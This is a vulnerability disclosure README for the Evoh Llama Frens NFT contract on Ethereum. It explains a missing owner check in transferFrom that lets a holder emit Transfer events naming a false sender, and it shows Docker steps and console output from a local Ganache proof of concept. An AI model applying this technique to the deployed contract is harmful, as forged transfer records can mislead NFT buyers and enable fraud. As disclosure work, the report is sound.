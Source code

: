 # CVE_Evoh_Contract
These are the materials about the vulnerability of Evoh NFT contract

# PRODUCT
`EvohClaimable` is a public smart contract running in the [Ethereum blockchain](https://ethereum.org/en/). The source code of this contract is published in https://github.com/evoh-nft/evoh-erc721 by its developer. The information of the deployed contract is in https://etherscan.io/address/0xf883ab97ed3d5a9af062a65b6d4437ea015efd8a.

This contract is responsible for managing the expensive NFTs (Evoh Llama Frens), such as minting them, transfering them, etc.. These NFTs are sold on the famous NFT market Opensea [here](https://opensea.io/collection/evoh-llama-frens), and the total volume has been 39 ETH ($47435.50 USD) at the time when I write this document. This NFT project is still active now.

# Version
This vulnerability is related to the latest version of this smart contract. The information The information of the deployed contract is in https://etherscan.io/address/0xf883ab97ed3d5a9af062a65b6d4437ea015efd8a.

# PROBLEM TYPE
Access control vulnerability

# DESCRIPTION
Since in [ERC-721](https://eips.ethereum.org/EIPS/eip-721) based NFT contract, when the contract executes the functions responsible for transferring NFT, such as 
**transferFrom(address _from, address _to, uint256 _tokenId)** or 
**safeTransferFrom(address _from, address _to, uint256 _tokenId)**,
the contract will transfer the NFT whose ID is **_tokenId** from account **_from** to account **_to**.
In addition, these functions should emit the specific event 
**Transfer(address _from, address _to, uint256 _tokenId)** 
to blockchain system, which enables the off-chain applications (such as NFT market, DApp) to perceive the transfer behaviour of NFT and synchronize it from blockchain. For example, the emitted event will be displayed in the market to inform user "the NFT whose ID is **_tokenId** is transfered from **_from** to **_to**". 
For example, in the [page](https://opensea.io/assets/ethereum/0xf883ab97ed3d5a9af062a65b6d4437ea015efd8a/97), we can find the event displayed in the Item Activity tab.

This contract does not verify the parameter '\_from' of transferFrom and safeTransferFrom functions need to be the owner of NFT '\_tokenId'. This is a defect about access control: if the attacker Bob has the NFT '\_tokenId', he can transfer '\_tokenId' to Mike but he sets the the parameter '\_from' of transferFrom function to be Alice. Then transferFrom function will transfer the '\_tokenId' from Bob to Mike, but the emitted event will announce Alice transfers the NFT '\_tokenId' to Mike. That is, Bob is able to control the seller of NFT with any values, which can fake NFT transfer. Further, even if Bob is not the owner of NFT '\_tokenId', he can launch this attack if he is approved to sell the NFT. Therefore, this defect can lead to the [sleep mint attack](https://kf106.medium.com/how-to-sleepmint-nft-tokens-bc347dc148f2).

I also provide a PoC to reproduce this attack by deploying the same contract on the [ganache](https://trufflesuite.com/ganache/). The steps to execute the PoC are as follow:

1. activate the environment
```bash
$ git clone https://github.com/MacherCS/CVE_Evoh_Contract.git
$ cd CVE_Evoh_Contract
$ sudo docker build -t machercs/ganache:v1 .
$ sudo docker run --network host -it machercs/ganache:v1
```

2. exploit the vulnerability and emit wrong event to announce fake transfer.
```bash
[+] The address of Bob is: 0x90F8bf6A479f320ead074411a4B0e7944Ea8c9C1
[+] The address of Alice is: 0xFFcf8FDEE72ac11b5c542428B35EEF5769C409f0
[+] The address of Mike is: 0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b
...
[+] Bob mints NFT whose ID is 0
...
[+] The owner of NFT 0 is: 0x90F8bf6A479f320ead074411a4B0e7944Ea8c9C1
...
[+] Exploit end. The NFT 0 is transferred by Bob to Mike.
[+] The owner of NFT 0 is: 0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b
[+] The Transfer events in blockchain:
...
{
  logIndex: 0,
  transactionIndex: 0,
  transactionHash: '0x5f29ad15f94935e6246d70fbff2fba919793a9163427e631620ea8ff8a48bcf3',
  blockHash: '0xa736e1b756066edf8186d497a21045a5a055c336055c4462de70a734863cf8a4',
  blockNumber: 6,
  address: '0xe78A0F7E598Cc8b0Bb87894B0F60dD2a88d6a8Ab',
  type: 'mined',
  removed: false,
  id: 'log_8740b08f',
  returnValues: Result {
    '0': '0xFFcf8FDEE72ac11b5c542428B35EEF5769C409f0',
    '1': '0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b',
    '2': '0',
    _from: '0xFFcf8FDEE72ac11b5c542428B35EEF5769C409f0',
    _to: '0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b',
    _tokenId: '0'
  },
  event: 'Transfer',
  signature: '0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef',
  raw: {
    data: '0x',
    topics: [
      '0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef',
      '0x000000000000000000000000ffcf8fdee72ac11b5c542428b35eef5769c409f0',
      '0x00000000000000000000000022d491bde2303f2f43325b2108d26f1eaba1e32b',
      '0x0000000000000000000000000000000000000000000000000000000000000000'
    ]
  }
}
[+] Transfer(from:0xFFcf8FDEE72ac11b5c542428B35EEF5769C409f0, to:0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b, tokenId:0)
[+] The last event records the NFT 0 is transferred from Alice to Mike (instead of from Bob to Mike).
```

# Additional explanation
For the detail explanation of the exploit, please refer to the annotation of *poc.js* file.
The content of *evoh-erc721-master* folder is the source code of `EvohClaimable` contract.
The *CVE_Evoh_Contract/evoh-erc721-master/contracts/Claimable.sol* is the code of deployed contract.
